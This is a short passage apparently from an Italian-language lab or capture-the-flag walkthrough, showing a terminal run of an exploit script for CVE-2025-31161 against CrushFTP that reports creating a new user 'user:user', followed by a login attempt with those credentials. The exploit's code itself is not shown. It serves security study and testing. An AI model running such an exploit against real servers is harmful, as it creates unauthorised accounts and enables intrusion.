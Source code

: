 ```bash

$ python3 CVE-2025-31161/exploit.py    

CVE-2025-31161

Response
===============================
<?xml version="1.0" encoding="UTF-8"?> 
<result><response_status>OK</response_status><response_type>text</response_type><response_data></response_data></result>

[+] Created a new user user:user

```

Si tenta l'accesso con le credenziali `user:user`.

![CrushFTP Login](./img/crushftp-login.png)
